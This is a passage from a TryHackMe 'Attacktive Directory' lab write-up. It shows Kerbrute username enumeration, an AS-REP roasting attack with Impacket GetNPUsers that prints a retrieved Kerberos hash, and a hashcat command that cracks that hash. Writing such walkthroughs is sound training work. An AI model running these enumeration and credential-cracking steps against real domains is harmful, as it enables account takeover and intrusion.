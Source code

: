 ```
2025/09/03 12:33:23 >  [+] VALID USERNAME:       james@spookysec.local
2025/09/03 12:33:29 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/09/03 12:33:36 >  [+] VALID USERNAME:       James@spookysec.local
2025/09/03 12:33:38 >  [+] VALID USERNAME:       robin@spookysec.local
2025/09/03 12:34:05 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/09/03 12:34:22 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/09/03 12:34:56 >  [+] VALID USERNAME:       backup@spookysec.local
2025/09/03 12:35:12 >  [+] VALID USERNAME:       paradox@spookysec.local
```

<details><summary><b>What command within Kerbrute will allow us to enumerate valid usernames?</b></summary></details><br>

<details><summary><b>What notable account is discovered? (These should jump out at you)</b></summary></details><br>

<details><summary><b>What is the other notable account is discovered? (These should jump out at you)</b></summary></details><br>


## ⚔️ Exploitation

With the retrieved users, we can try to abuse a feature within Kerberos which is the **"Does not require Pre-Authentication"** privilege set to the user account by an attack method called <code>ASREPROASTING</code>. 

Retrieving Kerberos Tickets using **Impacket** tools called <code>GetNPUsers</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile userskerb.txt -dc-ip <MACHINE-IP> -request -outputfile asrep.hashes
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f7a3593ebab137ba7f33da28f39e9c12$9b8da824e99edc6cd08c24cb958c86d1a488f50706a16c4e9079c55654e8808956cf99288dfd0f79c80eb7bbcb4917bd2ccc49251851b7ad2fdaa62a1d7cd9bc5f4099672f253d6be7553338a6a8f1bf9f55d5403f2e5875c0c0b101fb37e64b730089ec419b409410ce8209e0ec8e1cd6f9a2c125e638113ff7b15e16ff793e349f93771693fb17afb48e3f0e61d71c3a9e79eadafdcc8a6edce00643cc28f573530c0c22997af1edb376f84b5ffb67368fb68e99355a49555b9a06fa4a525af5837fe28413c996aea9da4df1ea21d7bb1568dcb75b772c8f93c1e425774a39ad4489aa9d2e97d6048836b408684b0a20a8
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

<details><summary><b>We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?</b></summary></details><br>

<details><summary><b>Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)</b></summary></details><br>

<details><summary><b>What mode is the hash?</b></summary></details><br>

Cracking the hash using <code>Hashcat</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Attacktive Directory]
└─$ hashcat -m 18200 -a 0 asrep.hashes /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f7a3593ebab137ba7f33da28f39e9c12$9b8da824e99edc6cd08c24cb958c86d1a488f50706a16c4e9079c55654e8808956cf99288dfd0f79c80eb7bbcb4917bd2ccc49251851b7ad2fdaa62a1d7cd9bc5f4099672f253d6be7553338a6a8f1bf9f55d5403f2e5875c0c0b101fb37e64b730089ec419b409410ce8209e0ec8e1cd6f9a2c125e638113ff7b15e16ff793e349f93771693fb17afb48e3f0e61d71c3a9e79eadafdcc8a6edce00643cc28f573530c0c22997af1edb376f84b5ffb67368fb68e99355a49555b9a06fa4a525af5837fe28413c996aea9da4df1ea21d7bb1568dcb75b772c8f93c1e425774a39ad4489aa9d2e97d6048836b408684b0a20a8:<svc-admin-PASSWORD>
...
```
